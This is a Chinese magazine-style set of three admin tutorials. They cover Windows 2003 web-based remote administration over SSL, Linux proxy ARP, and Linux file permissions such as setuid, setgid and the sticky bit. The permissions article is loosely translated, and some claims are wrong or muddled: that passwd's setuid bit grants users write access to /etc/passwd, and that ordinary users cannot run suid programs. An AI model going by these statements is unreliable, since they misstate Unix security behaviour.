很多网站每天公布大量的 3389 肉鸡，你如果不想也变成 3389 肉鸡的一员的话，好好看看这篇文章吧，对你一定有帮助的！

难度等级：中

适合对象：网管员

前置知识：Windows 2003 管理经验


刘流：大概在 3 年前，微软公司推出的 Windows 2000 操作系统震撼了 IT 界，制造了从业人员疯狂接受培训和重新认证的热潮。现在，另一个时代英雄也已闪亮登场——它就是 Windows Server 2003！如果你认为它只是 Windows 2000 的一个简单升级版本，那么你就错了。微软在过去的 3 年时间里曾对这个产品进行过多次彻底的修订。我们当中大多数人对 Windows Server 2003 的最大印象应该是它固若金汤的安全性。这一次，微软在安全性能上大做文章，但却丝毫没有影响到系统的可操作性。可以说 Windows Server 2003 的可操作性比其前辈要好很多！

### 具备 SSL 连接的远程管理

### —— Win2003 的 Web 安全远程管理

文／图 阿九大人

##### 【选择】

Windows 2003 的发布至今已经很长时间了，为了方便管理员的工作，同时出于安全考虑，Win 2003 提供了一个远程管理的 Web 界面，这个界面相对于 3389 来说，速度更快，同时也更安全，它是基于访问控制列表（ACL）对 Web 服务器上的资源进行了配置。

有些人因为某些原因，为了自己操作方便而开了 3389，好处自然不用说，但是存在被一些不知名的人扫描的隐患。反观远程管理的 Web 界面，不仅可以随意定义端口号，并且可以使用 SSL 加密。毕竟，微软自带的服务对技术支持也是有保障的。（文中远程管理的 Web 界面以后简称为远程 Web）

在组件中选择“应用程序服务器”->“Internet 信息服务器”->“FrontPage 2002 Server Extensions”（安装这个服务之后，就可以使用远程 Web），如图 1 所示。


经过一阵短暂的等待，服务安装完毕。为了测试远程管理的功能，我还安装了“电子邮件”->“POP3 服务”的 Web 管理。如图 2 所示。


##### 【实现】

因为远程 Web 是基于访问控制列表的，所以你必须将你系统所在卷转换为 NTFS，使用命令为 convert c: /fs:ntfs，转换过程将在下一次重启后进行。远程管理的 Web 界面还需要 IIS 6.0 的支持，在安装它之前，请先安装 IIS 6.0。然后打开“控制面板”->“添加删除程序”->“添加删除 Windows 组件”->

现在打开 IIS 管理器，会发现 Web 服务扩展里，FrontPage 2002 Server Extensions 的扩展支持已经打开了。OK，只要稍作设置，就可以使用了。

现在你会发现在 IIS 的网站里已经多出来两个站点了，其中 Administration 为远程 Web，而 Microsoft SharePoint 管理就是 Server Extensions 2002 了，这两个站点属于相互支持的关系，安装之后，如无特殊需要，就不要随意修改了，如图 3 所示。


先调试远程 Web，鼠标右击 Administration，在弹出的选项卡中设置这个站点的 IP。这里你可以修改 TCP 的连接端口和 SSL 的连接端口，我分别修改为 65534 和 65535，测试 IP 为 192.168.0.7。

打开“目录安全性”选项卡，将“要求安全通道（SSL）”选项卡的复选框去掉。这个时候，你就可以以 TCP 和 SSL 两种方式连接了，如图 4 所示。


到这里，关于远程 Web 的设置已经完成。Microsoft SharePoint 管理可以按照上面的步骤进行了。

##### 【使用远程 Web】

在地址栏输入 http://192.168.0.7:65534，按照 TCP 方式访问；输入 https://192.168.0.7:65535，按照 SSL 方式访问，建议最好使用 SSL。访问站点会要求输入用户和密码，用户规定必须为 administrators 组成员，并且密码不能为空。在这里，测试用户 net，密码 netnet，访问 SSL 连接（图 5），注意看 IE 地址栏小锁所代表的 SSL 图标。这里使用的是一个内部地址，实际上如果需要对外公开，使用外部地址一样可行，不过要注意证书的发放。


此后的操作和本地的“计算机管理”——“IIS 管理器”很相似，所不同的只是称呼的方式。在此，以 Web 服务器作简单介绍。

###### 1．Web 主设置

在这里可以设置网站的根目录和最大连接到服务器的数量，如图 6 所示。


###### 2．Web 执行权限

网站执行脚本的权限设定，和 IIS 管理器中站点属性的“主目录”选项卡是一样的，一般是用来设置 ASP 或者 CGI 脚本的执行权限，如图 7 所示。


###### 3．Web 日志设置

一个优秀的管理员，会从系统和站点的日志中得到很多有用的信息。通过合理地设置日志，认真地观察日志，你会学到很多知识，如图 8 所示。


###### 4．FTP 主页设置

因为我的机器上装了 FTP 服务，所以有这个选项，不过这个选项……咳，功能不是很强，如图 9 所示。


剩下的选项卡也都很有用，比如“用户”选项卡，可以直接添加用户，就算你不熟悉 DOS 命令，一样可以通过鼠标的点击，完成添加用户的过程。

##### 【使用 FrontPage 2002 Server Extensions】

它与 Internet 信息服务一起使用，用以支持管理、创建和浏览 FrontPage 扩展的网站。然后，运行 FrontPage 客户端的用户就可以创建并管理自己的网站。

> 刘流：最近的关于 FrontPage 扩展的漏洞对 2003 无效，各位可以放心使用，即使将来有什么漏洞，快速地修补漏洞，也是一个管理员所必须要做的嘛。

进入方式和远程 Web 一样。这里，我设置的端口是默认的 TCP-5018，用户依然为 net，访问地址为：http://192.168.0.7:5018。要使用管理，首先要将需要管理的站点扩展。扩展后，在名称下点击站点名字（UDDI 测试），输入用户密码就可以开始管理了。

依次点击“管理用户”->“添加用户”->“开始设置用户”，你可以为用户设定一定的权限，注意这些权限都是对于网络访问而言的。请谨慎设置，如图 10 所示。


在管理页面的首页下，有个“创建子站点”的选项，相当于虚拟目录，所产生的效果是一样的。

##### 【结束】

使用远程 Web 和 FrontPage 2002 Server Extensions，你就可以很方便地远程管理你的计算机和 Web。并且，由于可以自定义端口，将端口定义为高端口，可以小小欺骗一下喜欢用扫描器的朋友。就算对方输入“http://ip:端口”来访问，会要求提示输入密码，他并不可能知道你装的是什么东西，而且，因为开了 3389 而天天被人扫的也不在少数。采用它的最大好处，还是在于 SSL 连接。毕竟，在现在的网络中，安全，总是要摆在第一位的！

> 编后：本文介绍的方式很特别，也很好，是另一种方式的系统管理；但是，美中不足的是：如果使用的是 SSL 连接，速度会比较慢；如果你是用 56K 小猫拨号过来的，那么最好别使用这个功能，从点击一个链接到有响应，至少要两分钟以上的时间。这种方法只适用于比较快的网络情况，不然你就慢慢喝着咖啡等吧！呵呵！

### 巧用代理 ARP 解决跨网段问题

**难度等级：** 低

**适合对象：** 网络爱好者

**前置知识：** 交换机，网络协议知识

刘流：大家是不是有过这样的经历呢？在宿舍里组成了小网络，后来又多了一台计算机，偏偏交换机端口用完了，大家又不想花钱去买交换机或集线器，那怎么办呢？这就是本文的主题！看了此文，相信你能很好地解决这个问题的。

由于交换机端口用完了，机房内的一台计算机无法连接入网，但又不想为此去买一台集线器或交换机，于是就想通过一块多余的网卡用双机互连的方式把这台计算机连接入网，对此考虑了 3 种方案：

- 1. 通过 Windows XP 的网桥功能，即把这台未入网的机器连接到 Windows XP 系统上，但由于使用 Windows XP 的机器开机时间不长，所以这种方案不理想。
- 2. 通过 Windows 2000 Server 的路由功能，但这种方案的缺点就是需要到其他机器上添加到双机互连机器的路由条目，这又太麻烦。
- 3. 通过 Linux 的代理 ARP 功能，由于这台 Linux 服务器是长时间开机的，代理 ARP 也可以免去在其他主机上配置路由，所以最后就选定了这种方案。下面就来具体谈谈它。

#### 网络连接及设置

这台 Linux 服务器是 Red Hat 7.3 系统，2.4 的内核。首先在这台服务器上安装好第二块网卡，然后通过一根交叉线把那台未入网的机器连接到这块网卡上，连接和设置如图 1 所示。

其中，Linux 服务器的第一块网卡 IP 是 150.0.1.43，子网掩码是 255.255.255.0；第二块网卡的 IP 为 150.0.1.201，子网掩码是 27 位，为 255.255.255.224。与之相连的计算机（即原来那台未连入网的机器）的 IP 是 150.0.1.202，子网掩码也是 27 位，不过它多了一条路由，指向 150.0.1.201。网络中其他计算机的 IP 属于 150.0.1.0/255.255.255.0 子网，即与 Linux 服务器第一块网卡是一个子网。从上面的描述可以看出，网络 150.0.1.0/24 是包含网络 150.0.1.192/27 的。

#### 代理 ARP 的原理分析

所谓代理 ARP，是指连接多个网络的路由器代为某一端的网络响应另一端网络对其的 ARP 查询。上面的说法可能太抽象了，下面以图 1 中的两个子网的通信来说明代理 ARP 是怎样工作的。

比如这里 150.0.1.42/24 要访问 150.0.1.202/27，当 150.0.1.42 在对 150.0.1.202 做路由决定时，


它会把 150.0.1.202 与自己的子网掩码进行与操作，很明显这样计算出的结果是自己与 150.0.1.202 位于同一个子网，即 150.0.1.0 子网。由于判定目标是位于同一个子网，于是它就会在本子网内广播 150.0.1.202 的 ARP 查询。在通常情况下，由于 150.0.1.202 根本就没在此物理子网内，所以它不可能收到这种 ARP 广播，自然也不会向查询者响应自己的 MAC 地址。但由于这里路由器（150.0.1.43）开启了代理 ARP 功能，代理 ARP 会检测到此 ARP 查询的目标 IP 位于它另一端的网络上，所以就会以自己的 MAC 响应该查询。这样，150.0.1.42 就会把发送给 150.0.1.202 的数据发送到 150.0.1.43，然后 Linux 服务器把它转发到 150.0.1.202。

那如果是 150.0.1.202 要把数据发送到 150.0.1.0 网络呢？比如发送到 150.0.1.42，通信将是怎样呢？此时它将会把目标 150.0.1.42 与自己的子网掩码进行与操作，计算得出结果是 150.0.1.42 位于子网 150.0.1.32，而它自己的子网号是 150.0.1.192，显然结果是它们不处于同一个子网，于是它会把发送到 150.0.1.42 的数据先发送到网关 150.0.1.201，然后再由网关转发到 150.0.1.43。

#### 代理 ARP 的配置

上面说明了两个子网的通信过程，从中可以看出，从大网（150.0.1.0/24）到小网（150.0.1.192/27）需要代理 ARP 的作用，而从小网到大网，一般的路由就行了，而无需代理 ARP。要实现上面的目的，我们可以进行下面的配置：

- 1. 首先保证 Linux 服务器已被配置成了一个路由器，即启用它的 IP 转发：

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- 2. 在 150.0.1.43 的接口上启用代理 ARP，假如此接口名为 eth1：

```bash
echo 1 > /proc/sys/net/ipv4/conf/eth1/proxy_arp
```

为了让上面的配置随开机时就存在，可以把它们加入 /etc/rc.d/rc.local 文件中。我们的目的也就实现了，你学会了吗？

刘流：服务器内部系统的文件安全是非常重要的，因为如果权限被一些不怀好意的人所获得，那后果不敢设想，那么如何增强系统文件的安全性呢？本文将作详细介绍。

**适合对象：** 入侵爱好者、网络管理员

**难度等级：** 低

### 文件系统安全设置

文／小华健

在介绍如何加强文件系统的安全性之前，应首先了解一下关于 Linux 一些基本文件的安全和所有权，还有一些来自文件列表的各个域。例如，要在系统上显示一个文件的所有权限和允许权限，需要用 long-listing 选项，还有 display all files 选项，加到 ls(1) 命令上。这时只要一个典型的 /bin/ls -la 命令就可以显示以下这些数据：


```text
1. drwxrwxr-x  24 root   users      1024 Aug 19 00:05 .
2. drwxr-xr-x  22 root   root       1024 Aug 11 22:04 ..
3. drwxr-xr-x   3 root   root       1024 Jun 19 03:40 Mail
4. -rw-rw-r--   1 dave   security   43244 Jul 20 14:11 README
5. drwxrws--x  17 dave   security    1024 Jul 31 01:48 Security
[More not shown]
```

在上面的数据中，例如域1是对文件或者说目录的权限，域2是对文件或者目录的链接数，域3是对文件或者目录的所有者，域4是文件所属组，域5用来说明文件大小，域6显示文件更改时间，域7是文件名称，每个域都可以提供安全信息给管理员。

#### 文件的权限和所有权

现在我们看看上面说过的那几个域，其中域1、域3、域4都很活跃。在 Linux 系统里，分开管理文件和目录都是根据3个特征：所有者（owner）、组（group）、其他用户（other）。不同种类的文件有不同的权限和作用。文件权限包括普通文件、特殊文件（例如：FIFO、sockets 等），或者符号链接（决定它们赋予文件的权限）。如下：

| 符号 | 权限 | 描述 |
|---|---|---|
| r | Read | 用来打开要读的内容 |
| w | Write | 修改／添加／删除内容 |
| x | Execute | 用来执行文件（假如文件是一个程序或者脚本） |
| s | Special Perm | setuid 和 setgid 权限 |
| - | Access Denied | 带有“-”符号时，不能读／写／执行文件 |

read、write 和 execute 权限根据它们的意思可以清楚理解。但 “s” 需要说明一下。

##### 1．设置用户鉴定的属性

在所有者的权限下设置用户的 ID 访问方式，并且文件是可执行的，这样运行文件可使基于所有者权限的所有文件访问系统资源。在设置用户访问的权限时要非常小心仔细，因为任何用户运行那个文件，出现的是可执行文件所有者的权限，而不是要用户去创建这个可执行文件。这样会导致很多缓冲区溢出（buffer overflow）可以被利用，并且可能给予攻击者超级用户的权限。

在文件权限里，setuid 的权限显示为一个字母 “s”。例如，setuid 权限在 /usr/bin/passwd 命令下，可以使普通用户有读和写入 /etc/passwd 文件的权限：

```text
user@myhost: $ ls -l /etc/shadow /etc/passwd /usr/bin/passwd
-r-------- 1 root root 659 Jul 25 19:40 /etc/shadow
-rw-r--r-- 1 root root 711 Jul 25 19:40 /etc/passwd
-r-sr-xr-x 1 root bin 15613 Apr 27 12:29 /usr/bin/passwd
```

从上面的例子可以看出，字母 “s” 代表了执行命令。这个特殊的权限模式没有太大的意义，除非文件也有执行的权限。

在这个例子中，我们可以看到 /etc/shadow 文件只有根（root）有读的权限。但是通过 /usr/bin/passwd 文件，我们也可以改变密码。当任何一个普通用户、一个 bin 组的成员，或者任何其他人都可以执行 /usr/bin/passwd，并把它作为 root 运行，是因为有 “s” 被设置在所有者的权限区域里。

> 刘流：setuid 在应用于目录时有不同的意义。在系统上保持 setuid 和 setgid 二进制处于最小值，是为了尽可能地减少被攻击者所利用。一般用户是不能执行 suid 或者 sgid 的，普通用户也不知道这些是用来做什么的。当然，也不能通过简单地修改一下非 setuid 来获得 setuid 的权限。

##### 2．设置组鉴定属性

假如在组的权限下设置的话，可控制 “set group ID” 文件的状态。这和设置 setuid 时步骤是一样的，但是组要受到不利的影响。文件也必须是可执行的。对进程有效的组 ID 被改变成组的所有者，或者用户可以访问的那个组。同时有 “write all” 权限的用户把 wall(1) 程序（/usr/bin/wall）写入到系统日志上。设置组 ID 是为了在终端有写的权限，不允许用户运行以下这个程序：

```text
user@myhost$ ls -l /usr/bin/wall
-r-xr-sr-x 1 root tty 5492 May 7 14:02 /usr/bin/wall
```

大家都知道这个程序可以被任何人执行，它拥有 root 的权限，也是 tty 组的成员，所以要让这个程序不能被有恶意的用户利用。在系统上，tty 组的任何成员也不能改变组。

#### 目录的权限和所有权

目录的设置可以保护目录里的所有文件、子目录，使没有权限的用户不能访问这些文件。当然，在同一个文件上一些代表性的目录权限也可能有不同的意义，同时还可能有在其他目录上也可以用的权限，如 setuid、setgid 等等。权限描述表如下：

| 字符 | 权限 | 描述 |
|---|---|---|
| r | Read | 显示文件的内容 |
| w | Write | 在目录下添加／修改／移动文件 |
| x | Execute | 在目录下打开／执行文件 |
| - | Access Denied | 带有“-”符号时，不能读／写／执行文件 |
| s | Special Mode | 把组的 ID 设置成可用的（仅仅在“group”里） |
| t | Special Mode | 保存文本属性 |

理解这些符号的具体用法和意义，并能用它们来保护文件安全是非常重要的。这些符号的大部分含义还是好理解的，但也有的需要我们探讨一下它的用法：Read 符号的权限是用来显示目录里的内容的，有权限可以打开目录；Write 符号的权限是用来增加、移动或者修改目录里的文件的，有权限打开目录。注意目录有写的权限非常重要，如果没有特殊情况，最好别把这个权限取消掉。

##### 1．保留文本属性

Save Text（也叫做 sticky bit）是一个在目录中有用的选项。假如保留文本属性在目录里设置，用户仅仅能删除自己写的文件，即使在目录上也有写的权限。有计划地对目录设置写的权限，但是不能允许用户任意删除文件。sticky bit 在长长的目录清单里被看作字母 “t”。

例如，/tmp 是有代表性的可写目录。任何用户都有写临时文件的权限。/tmp 目录列出的清单看起来有点像如下：

```text
user@myhost$ ls -ld /tmp
drwxrwxrwt  3 root  root  2048 Aug 23 16:25 /tmp
```

这说明任何用户都有写、读还有访问的权限。但是字母 “t” 的选项说明用户可以创建文件，但只能删除自己的文件。

chmod(1) 命令控制保留文本属性的权限。例如，你可以给一个目录加上保留文本属性，如下：

```text
root@myhost# ls -ld spool
drwxrwxrwx  3 root  root  2048 Aug 23 16:25 spool
root@myhost# chmod +t spool
root@myhost# ls -ld spool
drwxrwxrwt  3 root  root  2048 Aug 23 16:25 spool
```

不但可以在文件上使用保留文本属性的选项，而且它还可以用在早期的 UNIX 系统上，但它并不完全适应现在的 Linux 系统。

加之，这个选项不可以随便使用。应当在用户的主目录上建立一个目录，可以让任何一个用户用来建立目录，还有 TMPDIR 环境变量被设置，并且系统寻找这个变量，在调用 tempnam(3) 程序时使用它。

##### 2．设置组鉴定属性

假如你在一个目录上设置 setgid bit，那么在那个目录下建立的文件将具有和该目录相同的组所有权，而不是创建文件的用户的默认组。

这个属性在很多用户访问特殊文件、但还要求和其他文件分离时非常有用。所有文件在一个带有 setgid 属性设置的公用目录下运行，意味着任何在这个目录下创建的文件都将会获得那个公用目录的组权限。例如，这里有两个用户，在不同的重要组里，但是需要合作完成一个公共项目。在这种情况下，创建一个公共目录，并给他们写的权限。你可以用以下命令控制一个目录下的 setgid 属性：

```text
joe@myhost$ ls -ld common-dir
drwxrwxr-x  2 joe  dev  1024 Aug 23 17:03 common-dir
joe@myhost$ chmod g+s common-dir
joe@myhost$ ls -ld common-dir
drwxrwsr-x  2 joe  dev  1024 Aug 23 17:03 common-dir
```

可以看出来，“s” 取代了组权限中的执行位。